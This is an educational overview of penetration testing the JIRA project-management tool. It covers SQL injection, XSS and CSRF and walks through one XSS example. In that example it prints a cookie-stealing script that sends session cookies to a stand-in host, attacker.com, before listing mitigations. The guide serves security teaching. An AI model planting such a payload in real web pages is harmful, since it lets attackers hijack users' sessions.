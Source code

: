 # JIRA pentesting


# 👉 Overview

---

### 👀 What ?

> JIRA Pentesting refers to the process of carrying out penetration tests on JIRA software to identify potential vulnerabilities that could be exploited by cyber attackers. JIRA, a project management tool developed by Atlassian, is widely used for tracking issues and managing projects. Hence, ensuring its security is of paramount importance.
> 

### 🧐 Why ?

> JIRA Pentesting is crucial as it helps in uncovering security flaws that could potentially lead to unauthorized access, data leakage, and other security incidents. Given the critical role of JIRA in project management, a breach could have severe implications on business operations, including project delays, financial losses, and reputational damage.
> 

### ⛏️ How ?

> JIRA Pentesting involves a series of steps. First, information gathering where you identify the target system and gather as much information as possible. Next is scanning, where you use automated tools to identify vulnerabilities. After that, you exploit these vulnerabilities either manually or using automated tools. Lastly, you report your findings, detailing the vulnerabilities found and the steps taken to exploit them.
> 

### ⏳ When ?

> JIRA Pentesting is best conducted during the development phase of the software to catch and fix vulnerabilities early on. However, it should also be done periodically, especially after major updates or changes in the software.
> 

# ⚙️ Technical Explanations

---

JIRA Penetration Testing, or Pentesting, is a comprehensive process aimed at identifying potential vulnerabilities in the JIRA software that could be exploited by cyber attackers. JIRA, developed by Atlassian, is a widely used project management tool, making its security paramount.

Understanding the intricacies of the JIRA software, including its architectural design, functionalities, and potential weak points, is crucial for the pentester. This knowledge is used to simulate cyber attacks and exploit vulnerabilities.

Various techniques are used during the testing process. SQL injection involves manipulating the software’s database by injecting malicious SQL code. Cross-Site Scripting (XSS) enables attackers to inject malicious scripts into webpages viewed by other users, potentially leading to unauthorized access or data theft. Cross-Site Request Forgery (CSRF) tricks the victim into submitting a malicious request, leading to potential unauthorized commands performed on behalf of the user.

The main goal of JIRA Pentesting is to identify as many vulnerabilities as possible and understand the potential impact of their exploitation. The process doesn't end with the identification of vulnerabilities. It extends to leveraging these vulnerabilities to understand the extent of potential damage or unauthorized access that could be achieved.

Once the testing phase is complete, a detailed report is prepared. This report includes the identified vulnerabilities, their severity, potential implications, and recommended mitigation strategies. This document serves as a roadmap for the development team to address the identified security weaknesses, thus bolstering the software's overall security posture.

JIRA Pentesting should be conducted periodically and especially after major software updates or changes. This ensures that any new vulnerabilities introduced during these updates are identified and addressed promptly, maintaining the software's robust security.

Let's consider an example of Cross-Site Scripting (XSS) vulnerability in the JIRA software:

1. **Identifying the Target**: Let's say the pentester identifies a form in JIRA that accepts user input, such as a project description field.
2. **Testing for Vulnerability**: The pentester then inputs a basic XSS payload to test for vulnerability. This might look something like `<script>alert('XSS')</script>`. If the software is vulnerable, this script will execute when the input is rendered, displaying a popup alert with the text 'XSS'.
3. **Exploiting the Vulnerability**: If the software is indeed vulnerable, the pentester can then proceed to exploit this vulnerability. For example, they might use a more sophisticated script to steal session cookies. This might look something like `<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie;</script>`. This script, when executed, sends the user's session cookie to the attacker's server, potentially allowing the attacker to hijack the user's session.
4. **Reporting**: The pentester includes this vulnerability in their report, detailing the steps taken to identify and exploit it, as well as its potential implications (e.g., session hijacking, unauthorized access).
5. **Mitigation**: The report also includes recommended mitigation strategies. For XSS vulnerabilities, this might include implementing proper output encoding, validating and sanitizing user inputs, and using modern frameworks that automatically escape XSS by design.

This example showcases the detailed steps involved in uncovering, exploiting, and mitigating a specific vulnerability during a JIRA Pentest.
